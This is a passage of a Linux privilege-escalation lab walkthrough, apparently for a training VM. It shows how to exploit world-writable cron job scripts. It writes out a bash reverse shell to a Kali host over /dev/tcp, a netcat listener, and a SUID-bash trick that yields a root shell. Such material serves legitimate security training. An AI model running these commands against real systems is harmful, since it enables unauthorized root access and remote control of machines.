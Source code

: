 ### Cron Jobs File permissions

* Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.
* Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.
* View the contents of the system-wide crontab:

```
cat /etc/crontab
```

* There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.
* Locate the full path of the overwrite.sh file:

```
locate overwrite.sh
```

* Note that the file is world-writable:

```
ls -l /usr/local/bin/overwrite.sh
```

* Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run. A root shell should connect back to your netcat listener.

```
nc -nvlp 4444
```

#### Cron Jobs File permissions Method 2

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```

* Wait the defined period of time

```
/tmp/bash -p
id
```

### Cron Jobs Path Environment Variable

* View the contents of the system-wide crontab:

```
cat /etc/crontab
```
